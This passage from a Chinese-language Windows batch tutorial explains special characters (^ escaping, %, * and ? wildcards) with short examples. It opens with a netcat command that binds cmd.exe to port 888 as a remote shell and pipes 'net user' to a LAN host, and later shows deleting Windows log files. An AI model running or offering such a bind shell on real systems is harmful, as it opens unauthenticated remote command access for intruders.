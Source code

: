 例子:
建立个1.txt文件,内容为net user

nc -v -e cmd.exe -t -l -p 888
nc 192.168.18.5 <1.txt



#### 8、^
取消特殊符号的作用

例子：
```bat
echo ^> >c:\1.txt
```

^是对特殊符号"<",">","&"的前导字符，
在命令中他将以上3个符号的特殊功能去掉，
仅仅只把他们当成符号而不使用他们的特殊意义。

比如
```bat
echo test ^>1.txt
```
结果则是
他没有追加在1.txt里，呵呵。只是显示了出来






#### 9、%
这个符号我们会在以后的教程中详细介绍到






#### 10、*
通配符号，表示任意个字符

例子：
```bat
del c:\windows\*.log
```








#### 11、?
通配符号，表示任意一个字符

例子：
```bat
dir c:\?indows
```


